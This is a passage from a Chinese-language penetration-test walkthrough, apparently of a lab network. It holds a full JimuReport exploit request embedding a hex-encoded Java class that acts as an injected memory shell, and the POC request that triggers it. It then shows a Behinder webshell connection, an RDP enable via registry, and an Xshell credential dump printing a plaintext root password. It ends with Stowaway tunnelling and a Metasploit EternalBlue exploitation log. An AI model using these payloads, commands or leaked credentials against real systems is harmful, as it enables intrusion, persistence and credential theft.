Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1734512727,1734575289,1734580151,1734592701; Hm_lpvt_5819d05c0869771ff6e6a81cdec5b2e8=1734592701; HMACCOUNT=5325E852605ABB9A
Connection: keep-alive

{"designerObj":{"id":"123456789","name":"erhuo","type":"datainfo"},"name":"sheet1","freeze":"A1","freezeLineColor":"rgb(185, 185, 185)","styles":[],"displayConfig":{},"printConfig":{"paper":"A4","width":210,"height":297,"definition":1,"isBackend":false,"marginX":10,"marginY":10,"layout":"portrait","printCallBackUrl":""},"merges":[],"rows":{"0":{"cells":{"0":{"text":"=(use org.springframework.cglib.core.*;use org.apache.commons.codec.binary.*;ReflectUtils.defineClass("org.apache.logging.l.KeyUtils", Hex.decodeHex("cafebabe0000003401240a005a008d08008e08008f0700900800910a000400920a009300940a009300950800960a002500970800980a0059009908009a08009b08009c08009d08009e07009f0800a00700a10a005900a20700a30800a40a001200a50800a60a005900a70700a80a001b00a90b00aa00ab0800ac0a001400ad0a001200ae0a005900af0a005900b00a005900b10a005900b20700b30800b40700b50900b600b70a001200b80a00b900ba0a00b600bb0a00b900bc0700bd0800be0800bf0800c00700c10a003100c20800c30a001200c40800c50a001200c60800c70800c80800c90700ca0a003a008d0700cb0a003c00cc0700cd0a003e00ce0a003e00cf0a003a00d00a003a00d10a005900d20a00d300d40a00d300ba0a00d300d50a001200d60700d70a001200d80a004800920a001200d90a00b900da0a000400db0a00b900dc0700dd0a004f00920700de0700df0a005100e00a005200920a005900e10a005900e20a005900e30a005200e40700e50700e60100063c696e69743e010003282956010004436f646501000f4c696e654e756d6265725461626c6501000d67657455726c5061747465726e01001428294c6a6176612f6c616e672f537472696e673b01000c676574436c6173734e616d6501000f676574426173653634537472696e6701000a457863657074696f6e730700e70100097472616e73666f726d010072284c636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f444f4d3b5b4c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f73657269616c697a65722f53657269616c697a6174696f6e48616e646c65723b29560700e80100a6284c636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f444f4d3b4c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f64746d2f44544d417869734974657261746f723b4c636f6d2f73756e2f6f72672f6170616368652f786d6c2f696e7465726e616c2f73657269616c697a65722f53657269616c697a6174696f6e48616e646c65723b295601000a676574436f6e7465787401001428294c6a6176612f6c616e672f4f626a6563743b01000d537461636b4d61705461626c650700b30700a10700a30700e90700ea01000e676574496e746572636570746f720700bd01000e616464496e746572636570746f72010027284c6a6176612f6c616e672f4f626a6563743b4c6a6176612f6c616e672f4f626a6563743b295601000c6465636f6465426173653634010016284c6a6176612f6c616e672f537472696e673b295b4201000e677a69704465636f6d7072657373010006285b42295b420700ca0700cb0700cd0100057365744656010039284c6a6176612f6c616e672f4f626a6563743b4c6a6176612f6c616e672f537472696e673b4c6a6176612f6c616e672f4f626a6563743b29560100056765744656010038284c6a6176612f6c616e672f4f626a6563743b4c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f4f626a6563743b0100046765744601003f284c6a6176612f6c616e672f4f626a6563743b4c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f7265666c6563742f4669656c643b07009f0700d701000c696e766f6b654d6574686f6401005d284c6a6176612f6c616e672f4f626a6563743b4c6a6176612f6c616e672f537472696e673b5b4c6a6176612f6c616e672f436c6173733b5b4c6a6176612f6c616e672f4f626a6563743b294c6a6176612f6c616e672f4f626a6563743b0700eb0700ec0700dd0700de0100083c636c696e69743e01000a536f7572636546696c6501000d4b65795574696c732e6a6176610c005b005c0100022f2a0100356f72672e6170616368652e636f6d6d6f6e732e6c616e672e536563757269747948616e646c6572576463496e746572636570746f720100106a6176612f6c616e672f537472696e670109a0483473494141414141414141414a31582b337354787855396f346458794570495241444c62674f6b6755677957415273452b776b594275445857776e52635375342f5378576f30736753794a335a574e307961686164716b37316636534e2f7069375251536c4b51495453555072372b30482b6f58333970656d5a334c57784c7276503173372f567a737964632b2b63652b3464365a2f2f656663326745667864344765736a6d62306975366b5a63706f7a77335679355a71614a656d6b326c70564531432f62696946374b467155356c5456475337593044566d7879365947496244316a44367675385a445264327978737036566e4c4a4c3342496f566f56733143617a5a6e366e46776f6d326454437a4b547371513558355232617342614c426b65394372636f4943594a585a385a6a417874735a4276304267714a79564170764843695535555a334c53504f306e696c794a6a70574e76546970473457314e6962444e6a356773566f7876367651394b6479416a345a67594657724d795235644f47414c624764336f61474e38456479482b384d4949437251386e6968564c4366464769507237567a69657050544e4b425162523131694e34414673565770754150353659564f4e324e6534513246517870527530514e5a31634c354f627436324b366b5250744c7578436c3572696f74753339444d3674435a6d542f696e6965797079526874326665465a677939335a34664f4b6f554b357047474867475a4a792b4a41594f66364868774c4d756f765a38366f2f446c675662745154493372466335763962596135694b35547730564b6e6d704d71435a627641436a337a4155777145544f386b416874543435325a6e764b75434a5357476767517543647436385a5a427574704b3579584b6b73545650667148576c62795a375a32346575546641684a624437413057753456456d646c626149773679774a3534493279696d6165443647374641665251703235556b3371784b694d34354562776d4d42396133647036434e5252726c6b363455534a64327853715635335579726f4571475a4f346a65427850684e4550716a6e4d2b4e4c4c2b58346f6e74676f347845637859414b6a6b56302f39326b6a2b68576e6c78714f4262474d44704332454f4756326c4377776a5655716b7938342f4647785053524b4f4e55784638464364624d597178454f496837474b3956554e346d6f3268776a4b4c344a544c5431726777663939444133506b4330473478424c4c54624a544a4f49574c4a542b4867724a6a484e7377774d70304f59385170706a64493166494c4a4937656a4a6376575362744159743373723632534344364654346678536567434f31595a5742567071435a6e5376756b5845787a704945644a305248673475325a4e34443863544d594151534f5a5867576265334e584873644a394347466d7766414f7174536e54556466533874706f696b346330794c6d5644796c56634a7a576446516351507765756d57654c4d2b6173494b34787a6f5a504f615251337a417663753733646270554373456158655263396a4d5977465042396d71747663436a766c56566a3738725a434f5456597a65576b4b625075477665396742655663463853324e62635273506e6e47616a5a3956314a50424176476c316668367668504579766b44586d64377559394a77727242747a644b7255764571586c4f52666f6b644b56732b58696a705256346d366a705569312f4256785778583474415130695a66594f794b636d4675374a5a48555339454c364662797353766b4d7346725a65744e516432367a52522f4264664539782f3330576537335257796f614a334b7931704c524c646e627a594a75646b505036326276636a396663313177325a6368564842656c5a47477a5a342b756c54526477303671434838677235795a612b7a377436674279344c356c6634745472666239774f355a4a7368764157652f4e4d67376d4733376b36474a6432767077564f4e7245532b4f326c58354e6d537553734a534c77414175342f6371674374553945776a7278717543725374743133444f325331554a6f766e2b5752447a664a53785049706d6d2b687574682f42453177726e704375454774575a565331317a4263766f47687849447939726b5053384b7842783756786c682f416e7071516e313530316a494f5a486c302f314e7554375133684e6c4e7953697270302b514f7554732b662b6238374d4c7a6d626b512f6f70643147454164416b2f6e3279712f4849703150586e66423579506f4e386f325435334d54524537543338584e54737450666558734a5736357934454f597a786161414f316f35584f626134514937674763743375786d657443665450796f4a366d6a624a7153335975495a614d2f766b365469656a66376d4f2f636e6f3336376a384e7431354c426a7477506273584d46656c73647659307a327a3330646739396d4459716e75334a4a58786f592f4350454f4a68427a7a69627650414254364d42326c42534a486a4554584f5865744d5873502b6d2b6a3134523934362b36414c3464724f50494758752b38695347427673417444453876345868664d42614d6e75446b75423954664a3359573339394b686277336750526a784867394530383630663075527649394c5845576f4b336b4a3157307a586b6f3838743457774e3556767754536472714e62776d5356384e7461536e434c7942594561766e674458363768367a56387334625859384561666a42314563472b6750397934444a5073677558634955552b70317a397a456c77434f63546641767958375a79657a7578516a7a6635715a3135464348767678496e3975584f49586c5375307549707576494e656836635263704667643979466836694a4131676b687739544c586b4d6b6376643549704d31564e304458766f537a68766365377a4f57394a2b765454703871432f312b346f6d456e6635363877624653355536797a7037717366384d45594e636555574d525839354178664839305a2f4b2b37675567312f324d7650743274596d74684857714933412b396859646f663755397a6152384835366239536234763363476237762f595252795a694e3579514d6855587941575542766657376b78466c686e4a2f6e73764f704964776a4847654d4a586a63583671776534496e422b3969484936795a6f2b6a41414f314761546c4979324d59707a4454484c31412f693577356d5763724c505a51575a2b36444153777050344558367376754751497a5558344d36443374774a3476384550365564326344506e43723145656e6e546f6b704e6850777630386e50673373583239436b4e663363526742623879684d2f6476724351622f775869564a59575867344141413d3d0c005b00ed0700ee0c00ef00f00c00f100f201003c6f72672e737072696e676672616d65776f726b2e7765622e636f6e746578742e726571756573742e52657175657374436f6e74657874486f6c6465720c00f300f401001467657452657175657374417474726962757465730c0084007f01000a6765745265717565737401000a67657453657373696f6e010011676574536572766c6574436f6e746578740100426f72672e737072696e676672616d65776f726b2e7765622e636f6e746578742e737570706f72742e5765624170706c69636174696f6e436f6e746578745574696c730100186765745765624170706c69636174696f6e436f6e7465787401000f6a6176612f6c616e672f436c61737301001c6a617661782e736572766c65742e536572766c6574436f6e746578740100106a6176612f6c616e672f4f626a6563740c008400850100136a6176612f6c616e672f457863657074696f6e0100316f72672e737072696e676672616d65776f726b2e636f6e746578742e737570706f72742e4c6976654265616e73566965770c00f5006a0100136170706c69636174696f6e436f6e74657874730c007e007f0100176a6176612f7574696c2f4c696e6b6564486173685365740c00f600f70700f80c00f9006a0100356f72672e737072696e676672616d65776f726b2e7765622e636f6e746578742e5765624170706c69636174696f6e436f6e746578740c00fa00fb0c00fc00fd0c006100600c006200600c007500760c007700780100156a6176612f6c616e672f436c6173734c6f6164657201000b646566696e65436c6173730100025b420700fe0c00ff01000c010101020700eb0c010301040c010501060c010701080100136a6176612f6c616e672f5468726f7761626c650100076765744265616e01001c726571756573744d617070696e6748616e646c65724d617070696e6701001361646170746564496e746572636570746f72730100136a6176612f7574696c2f41727261794c6973740c0109010a01001673756e2e6d6973632e4241534536344465636f6465720c010b00f401000c6465636f64654275666665720c010c01020100106a6176612e7574696c2e42617365363401000a6765744465636f6465720100066465636f646501001d6a6176612f696f2f4279746541727261794f757470757453747265616d01001c6a6176612f696f2f427974654172726179496e70757453747265616d0c005b010d01001d6a6176612f7574696c2f7a69702f475a4950496e70757453747265616d0c005b010e0c010f01100c011101120c011301140c008000810701150c011600740c011701180c0119011a01001e6a6176612f6c616e672f4e6f537563684669656c64457863657074696f6e0c011b00fb0c011c011d0c011e00600c011f010a0c0120012101001f6a6176612f6c616e672f4e6f537563684d6574686f64457863657074696f6e0100206a6176612f6c616e672f496c6c6567616c416363657373457863657074696f6e01001a6a6176612f6c616e672f52756e74696d65457863657074696f6e0c012200600c0069006a0c0071006a0c007300740c005b012301001d6f72672f6170616368652f6c6f6767696e672f6c2f4b65795574696c73010040636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f72756e74696d652f41627374726163745472616e736c65740100136a6176612f696f2f494f457863657074696f6e010039636f6d2f73756e2f6f72672f6170616368652f78616c616e2f696e7465726e616c2f78736c74632f5472616e736c6574457863657074696f6e0100206a6176612f6c616e672f436c6173734e6f74466f756e64457863657074696f6e01002b6a6176612f6c616e672f7265666c6563742f496e766f636174696f6e546172676574457863657074696f6e0100186a6176612f6c616e672f7265666c6563742f4d6574686f6401001b5b4c6a6176612f6c616e672f7265666c6563742f4d6574686f643b010015284c6a6176612f6c616e672f537472696e673b29560100106a6176612f6c616e672f54687265616401000d63757272656e7454687265616401001428294c6a6176612f6c616e672f5468726561643b010015676574436f6e74657874436c6173734c6f6164657201001928294c6a6176612f6c616e672f436c6173734c6f616465723b0100096c6f6164436c617373010025284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f436c6173733b01000b6e6577496e7374616e63650100086974657261746f7201001628294c6a6176612f7574696c2f4974657261746f723b0100126a6176612f7574696c2f4974657261746f720100046e657874010008676574436c61737301001328294c6a6176612f6c616e672f436c6173733b010010697341737369676e61626c6546726f6d010014284c6a6176612f6c616e672f436c6173733b295a0100116a6176612f6c616e672f496e7465676572010004545950450100114c6a6176612f6c616e672f436c6173733b0100116765744465636c617265644d6574686f64010040284c6a6176612f6c616e672f537472696e673b5b4c6a6176612f6c616e672f436c6173733b294c6a6176612f6c616e672f7265666c6563742f4d6574686f643b01000d73657441636365737369626c65010004285a295601000776616c75654f660100162849294c6a6176612f6c616e672f496e74656765723b010006696e766f6b65010039284c6a6176612f6c616e672f4f626a6563743b5b4c6a6176612f6c616e672f4f626a6563743b294c6a6176612f6c616e672f4f626a6563743b010003616464010015284c6a6176612f6c616e672f4f626a6563743b295a010007666f724e616d650100096765744d6574686f64010005285b422956010018284c6a6176612f696f2f496e70757453747265616d3b295601000472656164010005285b4229490100057772697465010007285b424949295601000b746f42797465417272617901000428295b420100176a6176612f6c616e672f7265666c6563742f4669656c64010003736574010003676574010026284c6a6176612f6c616e672f4f626a6563743b294c6a6176612f6c616e672f4f626a6563743b0100106765744465636c617265644669656c6401002d284c6a6176612f6c616e672f537472696e673b294c6a6176612f6c616e672f7265666c6563742f4669656c643b01000d6765745375706572636c6173730100126765744465636c617265644d6574686f647301001d28295b4c6a6176612f6c616e672f7265666c6563742f4d6574686f643b0100076765744e616d65010006657175616c73010011676574506172616d65746572547970657301001428295b4c6a6176612f6c616e672f436c6173733b01000a6765744d657373616765010018284c6a6176612f6c616e672f5468726f7761626c653b295600210059005a0000000000110001005b005c0001005d0000001d00010001000000052ab70001b100000001005e000000060001000000180001005f00600001005d0000001b00010001000000031202b000000001005e0000000600010000001a0009006100600001005d0000001b00010000000000031203b000000001005e0000000600010000001e0009006200600002005d00000022000300000000000abb0004591205b70006b000000001005e00000006000100000022006300000004000100640001006500660002005d000000190000000300000001b100000001005e00000006000100000030006300000004000100670001006500680002005d000000190000000400000001b100000001005e000000060001000000350063000000040001006700090069006a0002005d00000123000700060000008bb80007b600084b014c2a1209b6000a120bb8000c4e2d120db8000c4d2c120eb8000c3a041904120fb8000c3a052a1210b6000a121104bd001259032a1213b6000a5304bd00145903190553b800154ca700044e2bc700352a1217b6000ab600181219b8001ac0001b4e2db6001cb9001d01004d2a121eb6000a2cb6001fb600209900052c4ca700044e2bb000020009004f0052001600570085008800160002005e00000046001100000038000700390009003d0015003e001c003f00240040002d0041004f004300520042005300450057004700690048007300490083004a0085004d0088004c00890050006b0000002a0005ff0052000207006c07006d000107006e00fc003107006dff0002000207006c07006d000107006e0000630000000a0004006f0070004f0051000a0071006a0002005d000000fa0006000600000074b80007b600084b014c2ab80021b6000ab600184ca7005e4db80022b80023b800244e1225122606bd001259031227535904b20028535905b2002853b600293a04190404b6002a19042a06bd001459032d53590403b8002b5359052dbeb8002b53b6002cc000123a051905b600184ca700044e2bb0000200090014001700160018006e0071002d0002005e00000036000d00000054000700550009005800140062001700590018005b0022005c0040005d0046005e0068005f006e00610071006000720064006b000000280003ff0017000207006c07006d000107006eff0059000307006c07006d07006e0001070072fa0000006300000004000100160009007300740001005d0000006f000700040000002e2a122e04bd0012590312045304bd00145903122f53b800154d2c1230b8001ac000314e2d2bb6003257a700044db1000100000029002c00160002005e0000001a0006000000690019006a0023006b0029006d002c006c002d006f006b0000000700026c07006e000008007500760002005d000000b000060004000000701233b800344c2b123504bd00125903120453b600362bb6001804bd001459032a53b6002cc00027c00027c00027b04d1237b800344c2b123803bd0012b600360103bd0014b6002c4e2db6001f123904bd00125903120453b600362d04bd001459032a53b6002cc00027c00027c00027b000010000002d002e00160002005e0000001a00060000007400060075002e0076002f00770035007800480079006b0000000600016e07006e00630000000a0004006f004f007000510009007700780002005d00000090000400060000003ebb003a59b7003b4cbb003c592ab7003d4dbb003e592cb7003f4e110100bc083a042d1904b600405936059b000f2b1904031505b60041a7ffeb2bb60042b000000002005e0000001e00070000007e0008007f00110080001a008100210084002d008500390088006b0000001c0002ff0021000507002707007907007a07007b0700270000fc001701006300000004000100640020007c007d0002005d00000027000300040000000b2b2cb800432b2db60044b100000001005e0000000a00020000008c000a008d006300000004000100160008007e007f0002005d0000003100020003000000112a2bb800434d2c04b600452c2ab60046b000000001005e0000000e00030000009000060091000b0092006300000004000100160008008000810002005d0000007b00030004000000282ab6001f4d2cc600192c2bb600474e2d04b600452db04e2cb600494da7ffe9bb0048592bb7004abf000100090015001600480002005e00000026000900000096000500980009009a000f009b0014009c0016009d0017009e001c009f001f00a2006b0000000d0003fc000507008250070083080063000000040001004800280084007f0002005d00000026000400020000000e2a2b03bd001203bd0014b80015b000000001005e000000060001000000a60063000000080003004f005100700029008400850002005d0000019700030009000000ca2ac1001299000a2ac00012a700072ab6001f3a04013a0519043a061905c700641906c6005f2cc700431906b6004b3a0703360815081907bea2002e1907150832b6004c2bb6004d9900191907150832b6004ebe9a000d19071508323a05a70009840801a7ffd0a7000c19062b2cb600293a05a7ffa93a071906b600493a06a7ff9d1905c7000cbb004f592bb70050bf190504b6002a2ac1001299001a1905012db6002cb03a07bb0052591907b60053b70054bf19052a2db6002cb03a07bb0052591907b60053b70054bf0003002500720075004f009c00a300a4005100b300ba00bb00510002005e0000006e001b000000aa001400ab001700ac001b00ae002500b0002900b1003000b3003b00b4005600b5005d00b6006000b3006600b9006900ba007200be007500bc007700bd007e00be008100c1008600c2008f00c4009500c5009c00c700a400c800a600c900b300cd00bb00ce00bd00cf006b0000002f000e0e43070082fe0008070082070086070082fd0017070087012cf900050208420700880b0d540700890e470700890063000000080003004f007000510008008a005c0001005d000000540003000100000017b80055b80056b80057a7000d4bbb0052592ab70058bfb1000100000009000c00160002005e000000160005000000270009002a000c0028000d00290016002b006b0000000700024c07006e090001008b00000002008c"), ClassLoader.getSystemClassLoader()))"}}}},"cols":{"len":50},"validations":[],"autofilter":{},"dbexps":[],"dicts":[],"loopBlockList":[],"zonedEditionList":[],"fixedPrintHeadRows":[],"fixedPrintTailRows":[],"rpbar":{"show":true,"pageSize":"","btnList":[]},"hiddenCells":[],"hidden":{"rows":[],"cols":[]},"background":false,"area":false,"dataRectWidth":0,"excel_config_id":"123456789","pyGroupEngine":false,"querySetting":{"izOpenQueryBar":false,"izDefaultQuery":true}}
```



随后使用 show 接口进行代码执行触发，发现 text 中的恶意代码已被执行：POC：

```
POST /jmreport/show?previousPage=xxx&jmLink=YWFhfHxiYmI=&token=123123 HTTP/1.1
Host: 172.30.58.79:8085
Content-Length: 95
sec-ch-ua: "Not-A.Brand";v="99", "Chromium";v="124"
X-Tenant-Id: null
JmReport-Tenant-Id: null
sec-ch-ua-mobile: ?0
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/124.0.6367.118 Safari/537.36
tenantId: null
Content-Type: application/json;charset=UTF-8
Accept: application/json, text/plain, */*
X-Access-Token: null
token: null
sec-ch-ua-platform: "Windows"
Origin: http://172.30.58.79:8085
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: cors
Sec-Fetch-Dest: empty
Referer: http://172.30.58.79:8085/jmreport/view/123456
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Cookie: Hm_lvt_5819d05c0869771ff6e6a81cdec5b2e8=1734512727,1734575289,1734580151,1734592701; HMACCOUNT=5325E852605ABB9A; Hm_lpvt_5819d05c0869771ff6e6a81cdec5b2e8=1734593609
Connection: keep-alive

{"id":"123456789","apiUrl":"","params":"{"pageNo":1,"pageSize":10,"jmViewFirstLoad":"1"}"}
```



直接冰蝎4连接

地址：[http://localhost:8085/jmreport/showme](http://172.30.58.79:8085/jmreport/showme) 密码: password 请求头: Referer: Fvjxgwzbm



这里有杀软，做一下免杀



## 上线cs

正向上线，反向参考前面

用之前的5555正向客户端

```
connect 172.30.58.79 5555
```



抓一波hash







aviator!321

开启3389

```
shell REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f
```

关闭防火墙


# 第四台机器

## xshell

发现桌面有一个xshell



抓一波明文

```
C:\Users\Administrator\Desktop>SharpXDecrypt.exe

Xshell全版本凭证一键导出工具!(支持Xshell 7.0+版本)
Author: 0pen1
Github: https://github.com/JDArmy
[!] WARNING: For learning purposes only,please delete it within 24 hours after downloading!

[*] Start GetUserPath....
  UserPath: C:\Users\Administrator\Documents\NetSarang Computer\6
[*] Get UserPath Success !

[*] Start GetUserSID....
  Username: Administrator
  userSID: S-1-5-21-735703115-3971987017-3721219128-500
[*] GetUserSID Success !

  XSHPath: C:\Users\Administrator\Documents\NetSarang Computer\6\Xshell\Sessions\linux.xsh
  Host: 172.30.58.78
  UserName: root
  Password: qn6pr@net
  Version: 6.0

[*] read done!
```

垃圾xshell不知道怎么传文件，直接用XTerminal连接

## Stowaway搭建第二层代理

攻击机

```
(node 0) >> listen
[*] BE AWARE! If you choose IPTables Reuse or SOReuse,you MUST CONFIRM that the node you're controlling was started in the corresponding way!
[*] When you choose IPTables Reuse or SOReuse, the node will use the initial config(when node started) to reuse port!
[*] Please choose the mode(1.Normal passive/2.IPTables Reuse/3.SOReuse): 1
[*] Please input the [ip:]<port> : 9000
[*] Waiting for response......
[*] Node is listening on 9000
(node 0) >>
[*] New node online! Node id is 1
(node 0) >> back
(admin) >> use 1
(node 1) >> socks 2001
[*] Trying to listen on 0.0.0.0:2001......
[*] Waiting for agent's response......
[*] Socks start successfully!
```

目标机

```
./linux_x64_agent -c 172.30.58.42:9000 -s 123 --reconnect 8
```



# 第五台机器

## 第二层内网信息收集

```
[root@localhost ~]# ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: ens3: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether f0:ee:10:58:f7:24 brd ff:ff:ff:ff:ff:ff
    inet 172.30.58.78/24 scope global ens3
       valid_lft forever preferred_lft forever
    inet6 fe80::f2ee:10ff:fe58:f724/64 scope link 
       valid_lft forever preferred_lft forever
3: ens6: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP group default qlen 1000
    link/ether f0:02:f5:b9:6e:82 brd ff:ff:ff:ff:ff:ff
    inet 10.2.2.98/24 scope global ens6
       valid_lft forever preferred_lft forever
    inet6 fe80::f202:f5ff:feb9:6e82/64 scope link 
       valid_lft forever preferred_lft forever
[root@localhost ~]# ./fscanPlus_amd64 -h 10.2.2.98/24 

  ______                   _____  _           
 |  ____|                 |  __ \| |          
 | |__ ___  ___ __ _ _ __ | |__) | |_   _ ___ 
 |  __/ __|/ __/ _  |  _ \|  ___/| | | | / __|
 | |  \__ \ (_| (_| | | | | |    | | |_| \__ \
 |_|  |___/\___\__,_|_| |_|_|    |_|\__,_|___/   
                     fscan version: 1.8.4 TeamdArk5 v1.0
start infoscan
(icmp) Target 10.2.2.98       is alive
(icmp) Target 10.2.2.54       is alive
[*] Icmp alive hosts len is: 2
10.2.2.54:445 open
10.2.2.54:139 open
10.2.2.54:135 open
10.2.2.98:22 open
[*] alive ports len is: 4
start vulscan
[*] NetInfo 
[*]10.2.2.54
   [->]cslab-PC
   [->]10.2.2.54
[+] MS17-010 10.2.2.54  (Windows 7 Professional 7600)
[*] NetBios 10.2.2.54       CSLAB-PC             Windows 7 Professional 7600
```

## ms17010

这里发现一个ms17010，直接msf梭哈，这里如果打不通就用1433端口

```
┌──(root㉿penetration)-[/mnt/c/Users/Anonymous/Desktop]
└─# proxychains -q msfconsole
Metasploit tip: Writing a custom module? After editing your module, why not try
the reload command


Unable to handle kernel NULL pointer dereference at virtual address 0xd34db33f
EFLAGS: 00010046
eax: 00000001 ebx: f77c8c00 ecx: 00000000 edx: f77f0001
esi: 803bf014 edi: 8023c755 ebp: 80237f84 esp: 80237f60
ds: 0018   es: 0018  ss: 0018
Process Swapper (Pid: 0, process nr: 0, stackpage=80377000)


Stack: 90909090990909090990909090
       90909090990909090990909090
       90909090.90909090.90909090
       90909090.90909090.90909090
       90909090.90909090.09090900
       90909090.90909090.09090900
       ..........................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ccccccccc.................
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       .................ccccccccc
       cccccccccccccccccccccccccc
       cccccccccccccccccccccccccc
       ..........................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffffffffffffffffffffff
       ffffffff..................
       ffffffff..................
       ffffffff..................


Code: 00 00 00 00 M3 T4 SP L0 1T FR 4M 3W OR K! V3 R5 I0 N5 00 00 00 00
Aiee, Killing Interrupt handler
Kernel panic: Attempted to kill the idle task!
In swapper task - not syncing


       =[ metasploit v6.3.55-dev                          ]
+ -- --=[ 2397 exploits - 1235 auxiliary - 422 post       ]
+ -- --=[ 1391 payloads - 46 encoders - 11 nops           ]
+ -- --=[ 9 evasion                                       ]

Metasploit Documentation: https://docs.metasploit.com/

msf6 > use exploit/windows/smb/ms17_010_eternalblue
[*] No payload configured, defaulting to windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set payload windows/x64/meterpreter/bind_tcp_uuid
payload => windows/x64/meterpreter/bind_tcp_uuid
msf6 exploit(windows/smb/ms17_010_eternalblue) > set rhost 10.2.2.54
rhost => 10.2.2.54
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] 10.2.2.54:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.2.2.54:445         - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7600 x64 (64-bit)
[*] 10.2.2.54:445         - Scanned 1 of 1 hosts (100% complete)
[+] 10.2.2.54:445 - The target is vulnerable.
[*] 10.2.2.54:445 - Connecting to target for exploitation.
[+] 10.2.2.54:445 - Connection established for exploitation.
[+] 10.2.2.54:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.2.2.54:445 - CORE raw buffer dump (27 bytes)
[*] 10.2.2.54:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.2.2.54:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 30                 sional 7600
[+] 10.2.2.54:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.2.2.54:445 - Trying exploit with 12 Groom Allocations.
[*] 10.2.2.54:445 - Sending all but last fragment of exploit packet
[*] 10.2.2.54:445 - Starting non-paged pool grooming
[+] 10.2.2.54:445 - Sending SMBv2 buffers
[+] 10.2.2.54:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.2.2.54:445 - Sending final SMBv2 buffers.
[*] 10.2.2.54:445 - Sending last fragment of exploit packet!
[*] 10.2.2.54:445 - Receiving response from exploit packet
[+] 10.2.2.54:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.2.2.54:445 - Sending egg to corrupted connection.
[*] 10.2.2.54:445 - Triggering free of corrupted buffer.
[*] Started bind TCP handler against 10.2.2.54:4444
[-] 10.2.2.54:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.2.2.54:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.2.2.54:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] 10.2.2.54:445 - Connecting to target for exploitation.
[+] 10.2.2.54:445 - Connection established for exploitation.
[+] 10.2.2.54:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.2.2.54:445 - CORE raw buffer dump (27 bytes)
[*] 10.2.2.54:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.2.2.54:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 30                 sional 7600
[+] 10.2.2.54:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.2.2.54:445 - Trying exploit with 17 Groom Allocations.
[*] 10.2.2.54:445 - Sending all but last fragment of exploit packet
[*] 10.2.2.54:445 - Starting non-paged pool grooming
[+] 10.2.2.54:445 - Sending SMBv2 buffers
[+] 10.2.2.54:445 - Closing SMBv1 connection creating free hole adjacent to SMBv2 buffer.
[*] 10.2.2.54:445 - Sending final SMBv2 buffers.
[-] 10.2.2.54:445 - Rex::ConnectionRefused: The connection was refused by the remote host (10.2.2.54:445).
^C[*] Exploit completed, but no session was created.
msf6 exploit(windows/smb/ms17_010_eternalblue) > set lport 1433
lport => 1433
msf6 exploit(windows/smb/ms17_010_eternalblue) > run

[*] 10.2.2.54:445 - Using auxiliary/scanner/smb/smb_ms17_010 as check
[+] 10.2.2.54:445         - Host is likely VULNERABLE to MS17-010! - Windows 7 Professional 7600 x64 (64-bit)
[*] 10.2.2.54:445         - Scanned 1 of 1 hosts (100% complete)
[+] 10.2.2.54:445 - The target is vulnerable.
[*] 10.2.2.54:445 - Connecting to target for exploitation.
[+] 10.2.2.54:445 - Connection established for exploitation.
[+] 10.2.2.54:445 - Target OS selected valid for OS indicated by SMB reply
[*] 10.2.2.54:445 - CORE raw buffer dump (27 bytes)
[*] 10.2.2.54:445 - 0x00000000  57 69 6e 64 6f 77 73 20 37 20 50 72 6f 66 65 73  Windows 7 Profes
[*] 10.2.2.54:445 - 0x00000010  73 69 6f 6e 61 6c 20 37 36 30 30                 sional 7600
[+] 10.2.2.54:445 - Target arch selected valid for arch indicated by DCE/RPC reply
[*] 10.2.2.54:445 - Trying exploit with 12 Groom Allocations.
[*] 10.2.2.54:445 - Sending all but last fragment of exploit packet
